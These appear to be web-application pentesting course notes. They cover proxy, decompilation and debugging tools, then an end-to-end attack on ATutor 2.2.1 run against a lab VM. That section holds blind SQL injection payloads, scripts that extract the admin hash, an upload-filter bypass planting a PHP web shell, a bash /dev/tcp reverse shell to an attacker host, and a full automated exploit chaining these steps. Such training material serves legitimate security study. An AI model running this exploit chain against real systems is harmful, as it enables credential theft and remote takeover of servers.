1. Tools and Methodologies
Web application research can be conducted from a whitebox (full source code access), blackbox (no source, observe behavior only), or greybox (partial access such as credentials or documentation) perspective. Whitebox assessments of interpreted or bytecode-based languages (Java, .NET) are particularly effective because source code can be trivially recovered via decompilation. Regardless of approach, the workflow follows the same core loop: inspect traffic, recover source, analyze code, debug, and exploit.
1.1 Web Traffic Inspection
Start with traffic inspection. A web proxy captures client requests and server responses for precise HTTP manipulation. Burp Suite Community Edition handles information gathering and request manipulation.
1.1.1 Burp Suite Proxy
Burp Suite includes an embedded Chromium browser preconfigured to proxy traffic through its listener on 127.0.0.1:8080. Launch it from the Proxy > Intercept tab by clicking Open Browser. The Intercept feature captures requests before forwarding or dropping them. Toggle it on/off as needed.
The HTTP history tab logs every request and response that passed through Burp Suite.

1.1.2 Using Burp with Other Browsers
To configure Firefox manually, navigate to about:preferences#advanced, scroll to Network Settings, click Settings, and choose Manual proxy configuration. Set the HTTP proxy to 127.0.0.1 port 8080 and check "Use this proxy server for all protocols."
While Burp is configured as a proxy, all browser traffic routes through it. To stop proxying, switch back to "Use system proxy settings" or use a browser extension like FoxyProxy to toggle between proxy profiles.
1.1.3 Scope and Filtering
Right-click any request in HTTP history and select Add to scope to filter irrelevant traffic. Adding a top-level domain URL includes the entire domain. After setting scope, Burp offers to stop capturing out-of-scope items.
Enable "Show only in-scope items" in the HTTP history filter bar to reduce noise from third-party requests, ad networks, and browser auto-updates. Verify scope configuration under Target > Scope.
1.1.4 Repeater and Comparer
The Repeater tool resends captured requests with arbitrary modifications. Right-click a request in HTTP history and select Send to Repeater. Send the unmodified request first to establish a baseline response, then make changes (e.g., adding an Origin header) and observe how the response differs.
To compare responses, right-click each response and select Send to Comparer. The Comparer tab offers Words and Bytes comparison modes with color-coded highlighting: Modified, Deleted, and Added.
1.1.5 Decoder
The Inspector tool auto-detects encoding when you select text in the HTTP history tab. For example, selecting dGVzdDp0ZXN0 from a Basic auth header reveals the decoded value test:test. The dedicated Decoder tab provides full encode, decode, and hash capabilities for more complex transformations.
Right-click encoded text and select Send to Decoder, then choose the encoding scheme (Base64, URL, HTML, hex, etc.) from the Decode as dropdown. Multiple decode/encode operations can be chained.
Methodology
1.2 Interacting with Web Listeners using Python
Python's requests library handles HTTP interactions for exploit development. SSL certificate warnings can be suppressed for self-signed certificates, and built-in proxy support enables debugging through Burp Suite.
import requests
from colorama import Fore, Style
requests.packages.urllib3.disable_warnings(
requests.packages.urllib3.exceptions.InsecureRequestWarning)
def format_text(title, item):
cr = '\r\n'
section_break = cr + "*" * 20 + cr
item = str(item)
text = Style.BRIGHT + Fore.RED + title + Fore.RESET + section_break + item + section_break
return text
r = requests.get('https://[target-ip]:[port]/', verify=False)
print(format_text('r.status_code is: ', r.status_code))
print(format_text('r.headers is: ', r.headers))
print(format_text('r.cookies is: ', r.cookies))
print(format_text('r.text is: ', r.text))To route script traffic through Burp Suite for inspection, add a proxies dictionary. Remember to add the target to Burp's scope so it appears in the filtered HTTP history.
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
r = requests.get('https://[target-ip]:[port]/', verify=False, proxies=proxies)| Property | Description | Example Value |
|---|---|---|
r.status_code | HTTP status code | 200 |
r.headers | Response headers dict | {'Content-Type': 'text/html', ...} |
r.cookies | Response cookies jar | <RequestsCookieJar[...]> |
r.text | Response body as string | HTML content |
Methodology
-
import requests requests.packages.urllib3.disable_warnings( requests.packages.urllib3.exceptions.InsecureRequestWarning) r = requests.get('https://[target-ip]:[port]/', verify=False) print(r.status_code, r.headers, r.text) -
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'} r = requests.get('https://[target-ip]:[port]/', verify=False, proxies=proxies) -
print(r.status_code) # 200 print(r.headers) # {'Content-Type': 'text/html', ...} print(r.cookies) # <RequestsCookieJar[...]> print(r.text) # response body as string -
data = {'username': '[username]', 'password': '[password]'} r = requests.post('https://[target-ip]:[port]/login', data=data, verify=False) # JSON body: r = requests.post('https://[target-ip]:[port]/api', json=data, verify=False) -
s = requests.Session() s.verify = False s.proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'} s.post('https://[target-ip]:[port]/login', data={'user': '[username]', 'pass': '[password]'}) r = s.get('https://[target-ip]:[port]/dashboard') # session cookie sent automatically -
r = requests.get('https://[target-ip]:[port]/api/data', verify=False) json_data = r.json() print(json_data['key']) -
headers = {'Authorization': 'Bearer [token]', 'Content-Type': 'application/json'} cookies = {'session': '[cookie-value]'} r = requests.get('https://[target-ip]:[port]/api', headers=headers, cookies=cookies, verify=False)
1.3 Source Code Recovery
Java and .NET applications compile to bytecode that decompiles back to near-original source code.
1.3.1 .NET Decompilation with dnSpy
dnSpy uses the ILSpy decompiler engine to extract source code from compiled .NET assemblies. It supports both decompilation and debugging, making it the primary tool for .NET analysis. Open a DLL or EXE by dragging it onto the dnSpy window, and it reconstructs near-original C# source including classes, methods, and data types.
# Connect to target Windows VM via RDP
xfreerdp +nego +sec-rdp +sec-tls +sec-nla /u:[username] /p:[password] /v:[target-ip] /size:1180x708
# Append /tls-seclevel:0 if ERRCONNECT_TLS_CONNECT_FAILED occursExample C# program for testing decompilation:
using System;
namespace dotnetapp
{
class Program
{
static void Main(string[] args)
{
Console.WriteLine("What is your favourite Web Application Language?");
String answer = Console.ReadLine();
Console.WriteLine("Your answer was: " + answer + "\r\n");
}
}
}# Compile with .NET Framework csc.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe test.csRight-click any function in dnSpy and select Analyze. The Analyzer window shows Used By (callers) and Uses (callees) nodes. For example, searching for "base64" in method names reveals functions like Base64UrlDecode, and analyzing them traces the full call chain.
Right-click a class and choose Edit Class (C#) to modify source code directly. Click Compile to apply changes, then File > Save All to write the modified assembly to disk. This technique is useful for adding debug statements or modifying assembly attributes.
1.3.2 Java Decompilation with JD-GUI
Java web applications ship as JAR (Java ARchive) or WAR files containing compiled .class files. JD-GUI decompiles these back to near-original Java source. Drag a JAR file onto the JD-GUI window to trigger automatic decompilation.
# Compile a Java class and package as JAR
javac -source 1.8 -target 1.8 test.java
mkdir META-INF
echo "Main-Class: test" > META-INF/MANIFEST.MF
jar cmvf META-INF/MANIFEST.MF test.jar test.class
java -jar test.jarSimple test Java application for decompilation practice:
import java.util.*;
public class test {
public static void main(String[] args) {
Scanner scanner = new Scanner(System.in);
System.out.println("What is your favorite Web Application Language?");
String answer = scanner.nextLine();
System.out.println("Your answer was: " + answer);
}
}Transfer files to the target VM using Impacket's SMB server for JD-GUI analysis:
# Start an SMB share on Kali
sudo impacket-smbserver test /path/to/jar/
# On Windows, access \\[attacker-ip]\test to copy filesUse File > Save All Sources in JD-GUI to export decompiled Java files for analysis in a text editor or IDE. The navigation pane allows browsing the package hierarchy and searching for arbitrary strings across all decompiled classes.
Methodology
-
xfreerdp +nego +sec-rdp +sec-tls +sec-nla /u:[username] /p:[password] /v:[target-ip] /size:1180x708 -
# Extract dependencies from a Spring Boot JAR for analysis unzip -j app.jar "BOOT-INF/lib/*" -d lib/ -
sudo impacket-smbserver share /path/to/files/ # On Windows: copy from \\[attacker-ip]\share
1.4 Source Code Analysis Methodology
Walk through the application in a browser with Burp Suite proxying traffic first. Note the technologies in use, how routes are mapped, and how data flows - this narrows focus during source review.
1.4.1 Approach to Analysis
Data enters an application through a source (e.g., HTTP request handler) and is operated on at a sink (e.g., database query, system command). Manual source code analysis involves tracing the path between these two points and identifying where input validation or sanitization is absent.
| Approach | Start Point | Direction | Typical Findings |
|---|---|---|---|
| Top-down | Sources (entry points, request handlers) | Trace forward to sinks | Lower-severity, higher-exposure (e.g., XSS) |
| Bottom-up | Sinks (dangerous functions) | Trace backward to sources | Higher-severity, lower-exposure (e.g., RCE via admin function) |
Adapt both approaches as needed. The goal is always the same: find the vulnerability, reach the vulnerable code, and bypass any restrictions.
1.4.2 Using an IDE
Visual Studio Code supports multiple programming languages via extensions and provides advanced code search and debugging. Use the Toggle Search Details button (three dots) to refine searches by file type. For example, entering *.java in the "files to include" field limits results to Java source files.
Right-click any function or method name and select Find All References to locate all call sites. Search for unique keywords from application pages, error messages, and HTTP responses to narrow down relevant code paths. Regular expressions in VS Code searches help locate complex patterns like SQL query construction.
1.4.3 Common HTTP Routing Patterns
Understanding how an application maps HTTP requests to code determines how to trace data flow from a URL to the handling function. The web server, programming language, and framework all influence routing configuration.
| Framework | Pattern | Example |
|---|---|---|
| Filesystem Routing | URL maps to file on disk | /var/www/html/page.html |
| Java Servlets | web.xml servlet mappings | <url-pattern>/api/*</url-pattern> |
| Express.js | Route handlers | router.get('/login', handler) |
| Spring MVC | Annotation-based | @GetMapping("/admin/users") |
| Flask | Decorators | @app.route('/path') |
| ASP.NET MVC | Convention-based | /Controller/Action/Id |
Java servlet mappings in web.xml consist of two entries: a servlet definition and a URL mapping. Each servlet class implements doGet/doPost handlers for processing HTTP requests.
<!-- Servlet definition -->
<servlet id="SubscriptionHandler">
<servlet-name>SubscriptionHandler</servlet-name>
<servlet-class>org.opencrx.kernel.workflow.servlet.SubscriptionHandlerServlet</servlet-class>
</servlet>
<!-- URL mapping -->
<servlet-mapping>
<servlet-name>SubscriptionHandler</servlet-name>
<url-pattern>/SubscriptionHandler/*</url-pattern>
</servlet-mapping>1.4.4 Vulnerability Patterns to Search For
| Vulnerability | Search Patterns |
|---|---|
| SQL Injection | SELECT, INSERT, UPDATE, string concatenation in queries, executeQuery |
| Command Injection | exec(), system(), Runtime.getRuntime(), ProcessBuilder |
| Deserialization | ObjectInputStream, readObject(), BinaryFormatter, XmlSerializer |
| SSTI | render(), template string concatenation, Jinja2, Freemarker |
| File Operations | File.Open, fopen(), new File(), path concatenation |
| Priority | Focus Area |
|---|---|
| 1 | Unauthenticated endpoints and public-facing handlers |
| 2 | Input sanitization approach (trusted library vs. custom solution) |
| 3 | Database query construction (parameterized vs. concatenated) |
| 4 | Account creation, password reset, and recovery routines for logic flaws |
| 5 | OS interactions where commands can be modified or injected |
| 6 | Language-specific vulnerabilities (type juggling in PHP, deserialization in Java/.NET) |
Methodology
-
# Java servlet mappings grep -rn "servlet-mapping\|url-pattern" WEB-INF/web.xml # Annotation-based routing (Spring, JAX-RS) grep -rn "@GetMapping\|@PostMapping\|@RequestMapping\|@Path" --include="*.java" . -
# SQL injection sinks grep -rn "executeQuery\|prepareStatement\|createQuery" --include="*.java" . # Command injection sinks grep -rn "exec(\|system(\|Runtime.getRuntime\|ProcessBuilder" --include="*.java" . # Deserialization sinks grep -rn "ObjectInputStream\|readObject\|BinaryFormatter\|XmlSerializer" --include="*.java" --include="*.cs" .
1.5 Debugging
A debugger exposes memory contents, call stacks, and variable values at runtime. Pair remote debugging with database query logging for full visibility into application behavior.
1.5.1 Local Debugging with VS Code
Install the RedHat Language Support for Java and Microsoft Debugger for Java extensions. Set breakpoints by clicking to the left of line numbers, then launch via Run > Run and Debug.
import java.util.Random;
import java.util.Scanner;
public class DebuggerTest {
private static Random random = new Random();
public static void main(String[] args) {
int num = generateRandomNumber();
Scanner scanner = new Scanner(System.in);
System.out.println("Guess a number between 1 and 100.");
try {
int answer = scanner.nextInt();
scanner.close();
System.out.println("Your guess was: " + answer);
if (answer == num) {
System.out.println("You are correct!");
} else {
System.out.println("Incorrect. The answer was " + num);
}
} catch (Exception e) {
System.out.println("That's not a number.");
} finally {
scanner.close();
}
System.exit(0);
}
public static int generateRandomNumber() {
return random.nextInt(100) + 1;
}
}| Control | Action |
|---|---|
| Continue (F5) | Resume execution until next breakpoint or completion |
| Step Over (F10) | Execute next method call, pause at the next line in current method |
| Step Into (F11) | Follow execution into the called method |
| Step Out (Shift+F11) | Complete current method, pause when control returns to caller |
| Restart | Restart the debugging session |
| Stop | Terminate the debugging session |
| Hot Code Replace | Push source changes to the running process (language-dependent) |
The Variables window updates as execution progresses, displaying local and instance variable values. Hovering over a variable in the editor also reveals its current value.
1.5.2 Java Remote Debugging
To debug a Java process on a remote host, extract dependencies from the target JAR and configure VS Code with a launch.json remote debug configuration.
# Extract dependencies from a Spring Boot JAR
unzip -j app.jar "BOOT-INF/lib/*" -d lib/Create a launch.json configuration for remote debugging. In VS Code, click Run > Add Configuration > Java: Attach to Remote Program, then set hostName and port:
{
"type": "java",
"name": "Attach to Remote Program",
"request": "attach",
"hostName": "127.0.0.1",
"port": 9898
}Start the Java application with the debug agent enabled, then attach the VS Code debugger:
# Start Java app with JDWP debug agent on port 9898
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=9898 -jar app.jar
# For remote access (bind to all interfaces):
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=0.0.0.0:9898 -jar app.jarOnce attached, set breakpoints, trigger the code path via a web request, and inspect variables in the debugger. The debugging context menu and Variables window work identically to local debugging.
1.5.3 .NET Debugging with dnSpy
Release-compiled .NET assemblies have runtime optimizations that prevent breakpoint binding and variable inspection. Modify the [assembly: Debuggable] attribute to disable optimizations before debugging.
// Change the Debuggable attribute from:
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints)]
// To:
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default |
DebuggableAttribute.DebuggingModes.DisableOptimizations |
DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints |
DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]In dnSpy, right-click the assembly name in the Assembly Explorer and select Edit Assembly Attributes (C#). Replace the attribute, click Compile, then File > Save Module. Note that IIS loads assemblies from a temporary directory (C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\), so modify the copy loaded by the worker process.
Attach dnSpy to the w3wp.exe IIS worker process via Debug > Attach to Process. If w3wp.exe is not visible, browse to the web application first to trigger IIS to start it. Use Debug > Windows > Modules and Open All Modules to load all assemblies into the Assembly Explorer for decompilation and breakpoint placement.
Methodology
-
# Search web.xml for servlet mappings grep -rn "servlet-mapping\|url-pattern" WEB-INF/web.xml # Search for annotation-based routing grep -rn "@GetMapping\|@PostMapping\|@RequestMapping" --include="*.java" . -
# Java SQL injection patterns grep -rn "executeQuery\|prepareStatement\|createQuery" --include="*.java" . # .NET deserialization patterns grep -rn "BinaryFormatter\|XmlSerializer\|Deserialize" --include="*.cs" . -
# Java remote debug java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=9898 -jar app.jar # .NET: Modify [assembly: Debuggable] attribute, attach dnSpy to w3wp.exe -
import requests requests.packages.urllib3.disable_warnings() proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'} r = requests.get('https://[target-ip]:[port]/path', verify=False, proxies=proxies) print(r.status_code, r.text)
2. ATutor Authentication Bypass and RCE
2.1 Getting Started
ATutor is an open-source PHP Learning Management System (LMS) that runs on Apache with MySQL. The application manages user authentication, course content, and file uploads. The target instance runs ATutor 2.2.1 on a Debian-based VM.
| Component | Detail |
|---|---|
| Application | ATutor 2.2.1 |
| Language | PHP |
| Database | MySQL |
| Web Server | Apache |
| Web Root | /var/www/html/ATutor/ |
| MySQL Config | /var/www/html/ATutor/include/config.inc.php |
# SSH into the ATutor VM
ssh [username]@[target-ip]
# Locate ATutor installation
find / -name "config.inc.php" 2>/dev/null
# Review Apache virtual host configuration
cat /etc/apache2/sites-enabled/000-default.confEnable MySQL query logging to observe injected SQL statements during testing:
# Enable MySQL general query log
sudo mysql -u root
SET GLOBAL general_log = 'ON';
SET GLOBAL general_log_file = '/var/log/mysql/query.log';
# Monitor queries in real time
sudo tail -f /var/log/mysql/query.logMethodology
-
SET GLOBAL general_log = 'ON'; SET GLOBAL general_log_file = '/var/log/mysql/query.log';
2.2 Initial Vulnerability Discovery
ATutor's search functionality accepts user input and passes it to MySQL queries. The search handler is located in mods/_standard/social/index_public.php. The search parameter flows into a SQL query without proper sanitization.
// mods/_standard/social/index_public.php
$search = $_GET['search'];
// The search value is used in a LIKE clause
$sql = "SELECT * FROM " . TABLE_PREFIX . "members WHERE login LIKE '%$search%'";PHP's addslashes() function is applied to some inputs, but the search parameter bypasses this protection because it is used inside a LIKE clause where addslashes() does not prevent injection. The % wildcard characters are not escaped, and certain injection payloads avoid the need for single quotes entirely.
| Function | Escapes | Limitation |
|---|---|---|
addslashes() | Single quotes, double quotes, backslashes, NULL bytes | Does not escape % or _ wildcards; charset-dependent bypass possible |
mysql_real_escape_string() | Same as addslashes plus charset-aware | Still vulnerable if not inside quotes in the query |
| Parameterized queries | Full separation of SQL and data | None (correct approach) |
Confirm the injection point by submitting a payload that causes a detectable difference in application behavior:
# Baseline request (normal search)
curl -s "http://[target-ip]/[application-path]/mods/_standard/social/index_public.php?search=test"
# Boolean-based test: true condition (same results as baseline)
curl -s "http://[target-ip]/[application-path]/mods/_standard/social/index_public.php?search=test' AND 1=1--+-"
# Boolean-based test: false condition (different/empty results)
curl -s "http://[target-ip]/[application-path]/mods/_standard/social/index_public.php?search=test' AND 1=2--+-"Methodology
2.3 Blind SQL Injection Techniques
A blind SQL injection occurs when the application does not display query results or error messages directly, but the injected condition influences the response in a detectable way. ATutor's search returns different HTML content depending on whether the injected boolean condition evaluates to true or false.
| Technique | Detection Method | Speed |
|---|---|---|
| Boolean-based blind | Compare response content length or specific HTML elements | Moderate (1 bit per request) |
| Time-based blind | Measure response delay using SLEEP() or BENCHMARK() | Slow (wait per character) |
| Error-based | Extract data through database error messages | Fast (direct output) |
| UNION-based | Append attacker query results to normal output | Fastest (full rows per request) |
For boolean-based extraction, the SUBSTRING() function isolates individual characters, and ASCII() converts them to numeric values for comparison:
-- Extract first character of database version
' AND ASCII(SUBSTRING(@@version,1,1)) > 53--+-
-- Binary search: narrow down ASCII value
' AND ASCII(SUBSTRING(@@version,1,1)) > 53--+- -- Is char > '5'?
' AND ASCII(SUBSTRING(@@version,1,1)) > 52--+- -- Is char > '4'?
' AND ASCII(SUBSTRING(@@version,1,1)) = 53--+- -- Is char == '5'?A binary search over the ASCII range (32-126) requires at most 7 requests per character, compared to 94 requests for a linear scan.
Methodology
2.4 Digging Deeper
2.4.1 addslashes() Limitations
PHP's addslashes() escapes single quotes by prepending a backslash (\'). However, in multi-byte character sets (e.g., GBK, SJIS), a specially crafted byte sequence can consume the backslash as part of a valid multi-byte character, leaving the single quote unescaped.
// addslashes() behavior:
$input = "test'";
echo addslashes($input); // Output: test\'
// Multi-byte bypass (GBK charset):
// 0xbf5c is a valid GBK character
// 0xbf27 → addslashes → 0xbf5c27 → GBK char + unescaped quote
$input = "\xbf\x27";
echo addslashes($input); // Output: 0xbf 0x5c 0x27 → [valid GBK char]'Even without multi-byte bypass, addslashes() fails when the user input is used as a numeric value (without quotes in the SQL query). In that case, no quote is needed for injection:
// Vulnerable: numeric context, no quotes around $id
$sql = "SELECT * FROM users WHERE id = " . addslashes($id);
// Injection: id=1 OR 1=1 (no quotes needed, addslashes is irrelevant)2.4.2 Improper Use of Parameterization
Some ATutor code paths appear to use prepared statements but actually concatenate user input before binding. This creates a false sense of security:
// VULNERABLE: concatenation before prepare
$query = "SELECT * FROM members WHERE login = '" . $_GET['user'] . "'";
$stmt = $db->prepare($query);
$stmt->execute();
// SECURE: proper parameterized query
$stmt = $db->prepare("SELECT * FROM members WHERE login = ?");
$stmt->bind_param("s", $_GET['user']);
$stmt->execute();| Pattern | Vulnerable? | Reason |
|---|---|---|
$db->prepare("... WHERE id = " . $input) | Yes | Input concatenated before prepare |
$db->prepare("... WHERE id = ?"); bind_param($input) | No | Input bound separately from query structure |
"... WHERE id = " . addslashes($input) | Depends | Fails in numeric context or multi-byte charsets |
"... WHERE id = " . intval($input) | No | Cast to integer strips injection payload |
Methodology
-
# Find direct concatenation into SQL queries grep -rn "\$sql.*\$_GET\|\$sql.*\$_POST\|\$sql.*\$_REQUEST" --include="*.php" /var/www/html/ATutor/ # Find addslashes usage grep -rn "addslashes" --include="*.php" /var/www/html/ATutor/
2.5 Data Exfiltration
2.5.1 Comparing HTML Responses
Boolean-based blind SQLi relies on a detectable difference between true and false responses. In ATutor, a true condition returns user profile data in the search results; a false condition returns an empty results section. The response length or a specific HTML element acts as the boolean oracle.
import requests
import sys
target = "http://[target-ip]/[application-path]"
search_url = f"{target}/mods/_standard/social/index_public.php"
def inject(payload):
"""Returns True if the injected condition evaluates to true."""
r = requests.get(search_url, params={"search": payload})
return "Member Results" in r.text
# Test the oracle
print(inject("test' AND 1=1--+-")) # True
print(inject("test' AND 1=2--+-")) # False2.5.2 MySQL Version Extraction
With the boolean oracle confirmed, extract the MySQL version string character by character using binary search:
import requests
target = "http://[target-ip]/[application-path]"
search_url = f"{target}/mods/_standard/social/index_public.php"
def inject(payload):
r = requests.get(search_url, params={"search": payload})
return "Member Results" in r.text
def extract_char(position, query):
"""Binary search for a single character at the given position."""
low, high = 32, 126
while low < high:
mid = (low + high) // 2
sqli = f"test' AND ASCII(SUBSTRING(({query}),{position},1)) > {mid}--+-"
if inject(sqli):
low = mid + 1
else:
high = mid
return chr(low) if low > 32 else None
def extract_string(query, max_len=64):
"""Extract a full string from a subquery."""
result = ""
for i in range(1, max_len + 1):
c = extract_char(i, query)
if c is None:
break
result += c
print(f"\r[*] Extracting: {result}", end="", flush=True)
print()
return result
# Extract MySQL version
version = extract_string("SELECT @@version")
print(f"[+] MySQL Version: {version}")
# Extract current database name
db_name = extract_string("SELECT database()")
print(f"[+] Database: {db_name}")
# Extract current user
db_user = extract_string("SELECT user()")
print(f"[+] User: {db_user}")Methodology
-
SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1 SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1
2.6 Subverting ATutor Authentication
2.6.1 Credential Extraction
The members table stores user credentials. The login column holds usernames and the password column stores SHA-1 hashes. Extract the admin password hash using the boolean-based blind injection:
import requests
target = "http://[target-ip]/[application-path]"
search_url = f"{target}/mods/_standard/social/index_public.php"
def inject(payload):
r = requests.get(search_url, params={"search": payload})
return "Member Results" in r.text
def extract_char(position, query):
low, high = 32, 126
while low < high:
mid = (low + high) // 2
sqli = f"test' AND ASCII(SUBSTRING(({query}),{position},1)) > {mid}--+-"
if inject(sqli):
low = mid + 1
else:
high = mid
return chr(low) if low > 32 else None
def extract_string(query, max_len=64):
result = ""
for i in range(1, max_len + 1):
c = extract_char(i, query)
if c is None:
break
result += c
print(f"\r[*] Extracting: {result}", end="", flush=True)
print()
return result
# Extract admin username
admin_user = extract_string(
"SELECT login FROM AT_members WHERE status=3 LIMIT 0,1"
)
print(f"[+] Admin user: {admin_user}")
# Extract admin password hash (SHA-1, 40 hex chars)
admin_hash = extract_string(
f"SELECT password FROM AT_members WHERE login='{admin_user}'",
max_len=40
)
print(f"[+] Admin hash: {admin_hash}")2.6.2 Password Hash Cracking
Crack the extracted SHA-1 hash offline:
# Crack SHA-1 hash with hashcat
echo "[extracted-hash]" > admin_hash.txt
hashcat -m 100 admin_hash.txt /usr/share/wordlists/rockyou.txt
# Or use john
john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt admin_hash.txtMethodology
2.7 Authentication Gone Bad
ATutor's authentication logic in login.php compares the submitted password hash against the stored hash. If the hash values match, the application sets a session cookie and redirects to the admin dashboard. The comparison is case-insensitive for the hex-encoded hash, so uppercase and lowercase hex digits both match.
// login.php - authentication check (simplified)
$password_hash = sha1($_POST['form_password']);
$sql = "SELECT * FROM " . TABLE_PREFIX . "members
WHERE login='" . $addslashes($_POST['form_login']) . "'
AND SHA1(concat(password, '" . $_SESSION['token'] . "')) = '" . $password_hash . "'";
$result = mysql_query($sql, $db);
if ($row = mysql_fetch_assoc($result)) {
$_SESSION['valid_user'] = true;
$_SESSION['member_id'] = $row['member_id'];
$_SESSION['login'] = $row['login'];
// Redirect to dashboard
}With the cracked admin password, log in through the standard login form. The admin panel provides access to course management, user administration, and the file manager - which is the next target for achieving remote code execution.
Methodology
2.8 Bypassing File Upload Restrictions
ATutor's file manager allows admins to upload files, but restricts executable extensions. The upload handler in mods/_core/file_manager/upload.php checks the file extension against a blocklist:
// upload.php - extension check (simplified)
$path_parts = pathinfo($_FILES['uploadedfile']['name']);
$ext = $path_parts['extension'];
$illegal_extentions = array('exe', 'asp', 'php', 'php3', 'bat', 'cgi',
'pl', 'com', 'vbs', 'reg', 'pcd', 'pif',
'scr', 'bas', 'inf', 'vb', 'vbe', 'wsc',
'wsf', 'wsh');
if (in_array($ext, $illegal_extentions)) {
$msg->addError('FILE_EXTENSION_NOT_ALLOWED');
header('Location: index.php');
exit;
}The blocklist does not include .phtml, .php5, .php7, .pht, or .phar - all of which Apache may execute as PHP depending on its configuration. Check the Apache configuration to determine which extensions are handled by the PHP module:
# Check which extensions Apache maps to the PHP handler
grep -rn "php" /etc/apache2/mods-enabled/php*.conf
# Look for: AddHandler php-script .php .phtml .php5 .php7| Extension | Blocked? | Apache Executes as PHP? |
|---|---|---|
.php | Yes | Yes |
.php3 | Yes | Sometimes |
.phtml | No | Yes (default Apache config) |
.php5 | No | Depends on config |
.pht | No | Depends on config |
.phar | No | Depends on config |
Methodology
2.9 Gaining Remote Code Execution
2.9.1 Disclosing the Web Root
To upload a web shell, the destination path within the web root must be known. ATutor's include/config.inc.php file defines AT_CONTENT_DIR which points to the content directory. Alternatively, trigger a PHP error to disclose the full filesystem path in the error message:
# Trigger a PHP error to disclose the web root path
curl "http://[target-ip]/[application-path]/mods/_standard/social/index_public.php?search[]=test"
# PHP Warning: trim() expects parameter 1 to be string, array given in
# /var/www/html/ATutor/mods/_standard/social/index_public.php on line 342.9.2 Finding Writable Directories
Even with admin access, uploaded files must land in a directory the web server can write to and that is accessible via HTTP. ATutor's content directory (/var/www/html/ATutor/content/) is writable by the Apache user:
# Check directory permissions
ls -la /var/www/html/ATutor/content/
# drwxrwxrwx 4 www-data www-data 4096 ... content/
# Alternatively, use the file manager to identify writable paths
# Admin > File Manager shows the content directory listing2.9.3 Bypassing the File Extension Filter
Upload a PHP web shell with the .phtml extension through the admin file manager. Apache's default PHP module configuration processes .phtml files as PHP, bypassing ATutor's blocklist.
<?php
// shell.phtml - minimal web shell
if(isset($_REQUEST['cmd'])){
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?># Upload via the admin file manager, then access the web shell
curl "http://[target-ip]/[application-path]/content/shell.phtml?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
curl "http://[target-ip]/[application-path]/content/shell.phtml?cmd=cat+/etc/passwd"2.9.4 Full Reverse Shell
Upgrade from command execution to a full interactive reverse shell:
# Start listener
nc -nlvp 443
# Trigger reverse shell via web shell
curl "http://[target-ip]/[application-path]/content/shell.phtml" \
--data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/[attacker-ip]/443 0>&1'"2.9.5 Automated Exploit Script
#!/usr/bin/env python3
"""ATutor 2.2.1 - Blind SQLi to RCE exploit."""
import requests
import sys
class ATutorExploit:
def __init__(self, target, attacker_ip, attacker_port):
self.target = target.rstrip('/')
self.search_url = f"{self.target}/mods/_standard/social/index_public.php"
self.login_url = f"{self.target}/login.php"
self.upload_url = f"{self.target}/mods/_core/file_manager/upload.php"
self.attacker_ip = attacker_ip
self.attacker_port = attacker_port
self.session = requests.Session()
def boolean_oracle(self, payload):
r = self.session.get(self.search_url, params={"search": payload})
return "Member Results" in r.text
def extract_char(self, pos, query):
low, high = 32, 126
while low < high:
mid = (low + high) // 2
sqli = f"test' AND ASCII(SUBSTRING(({query}),{pos},1))>{mid}--+-"
if self.boolean_oracle(sqli):
low = mid + 1
else:
high = mid
return chr(low) if low > 32 else None
def extract_string(self, query, max_len=64):
result = ""
for i in range(1, max_len + 1):
c = self.extract_char(i, query)
if c is None:
break
result += c
print(f"\r[*] {result}", end="", flush=True)
print()
return result
def dump_creds(self):
print("[*] Extracting admin credentials...")
self.admin_user = self.extract_string(
"SELECT login FROM AT_members WHERE status=3 LIMIT 0,1"
)
self.admin_hash = self.extract_string(
f"SELECT password FROM AT_members WHERE login='{self.admin_user}'",
max_len=40
)
print(f"[+] Admin: {self.admin_user}")
print(f"[+] Hash: {self.admin_hash}")
def login(self, password):
print(f"[*] Logging in as {self.admin_user}...")
r = self.session.get(self.login_url)
data = {
"form_login": self.admin_user,
"form_password": password,
"submit": "Login"
}
r = self.session.post(self.login_url, data=data)
if "Create Course" in r.text or "Admin" in r.text:
print("[+] Login successful")
return True
print("[-] Login failed")
return False
def upload_shell(self):
print("[*] Uploading web shell...")
shell_content = (
'<?php if(isset($_REQUEST["cmd"]))'
'{echo "<pre>".shell_exec($_REQUEST["cmd"])."</pre>";}?>'
)
files = {"uploadedfile": ("shell.phtml", shell_content, "text/plain")}
data = {"submit": "Upload"}
r = self.session.post(self.upload_url, files=files, data=data)
shell_url = f"{self.target}/content/shell.phtml"
r = self.session.get(shell_url, params={"cmd": "id"})
if "www-data" in r.text:
print(f"[+] Shell uploaded: {shell_url}")
return shell_url
print("[-] Upload failed")
return None
def reverse_shell(self, shell_url):
print(f"[*] Triggering reverse shell to {self.attacker_ip}:{self.attacker_port}...")
cmd = f"bash -c 'bash -i >& /dev/tcp/{self.attacker_ip}/{self.attacker_port} 0>&1'"
self.session.get(shell_url, params={"cmd": cmd})
if __name__ == "__main__":
if len(sys.argv) != 4:
print(f"Usage: {sys.argv[0]} <target-url> <attacker-ip> <attacker-port>")
sys.exit(1)
exploit = ATutorExploit(sys.argv[1], sys.argv[2], sys.argv[3])
exploit.dump_creds()
password = input("[?] Enter cracked password: ")
if exploit.login(password):
shell_url = exploit.upload_shell()
if shell_url:
input("[*] Start nc listener, then press Enter...")
exploit.reverse_shell(shell_url)Methodology
-
